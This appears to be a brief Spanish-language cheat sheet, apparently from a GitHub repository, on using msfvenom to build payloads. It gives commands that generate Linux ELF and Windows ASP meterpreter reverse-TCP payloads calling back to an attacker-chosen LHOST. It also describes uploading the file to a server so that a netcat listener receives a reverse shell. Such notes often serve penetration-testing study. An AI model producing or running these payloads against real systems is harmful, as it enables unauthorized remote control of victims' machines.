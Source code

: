 # Msfvenom

Propietario: Adrian Gisbert Cabello

Comandos para usar en msfvenom (Payloads):

- Para generar un payload: `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.X.X LPORT=1234 -f elf > hola.elf`. Si subimos el archivo hola.elf al servidor http y accedemos a él a través del navegador, obendremos una revershell si nos ponemos en escucha con netcat a través del puerto 1234 `nc -lvnp 1234`
- Para generar un payload para windows: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.X.X LPORT=1234 -f asp > shell.asp`